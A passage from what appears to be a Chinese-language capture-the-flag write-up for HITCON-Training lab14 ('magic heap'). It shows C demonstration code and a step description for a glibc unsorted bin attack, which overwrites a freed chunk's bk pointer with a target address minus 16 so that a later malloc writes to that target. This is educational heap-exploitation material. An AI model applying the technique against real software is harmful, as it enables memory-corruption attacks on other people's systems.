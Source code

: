 ```c
                  "consolidating the top chunk with"
                  "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

假设栈中的某个变量地址是&target_value，并且我们已经通过malloc和free在unsorted bin中得到了一个chunk。

1. 首先通过堆溢出控制unsorted bin 中chunk'bk to &target_value -0x10。![image-20181219103200415](img/2018-12-18-HITCON-Training-lab14-magic-heap-unsorted-bin-attack/image-20181219103200415-5186720.png)
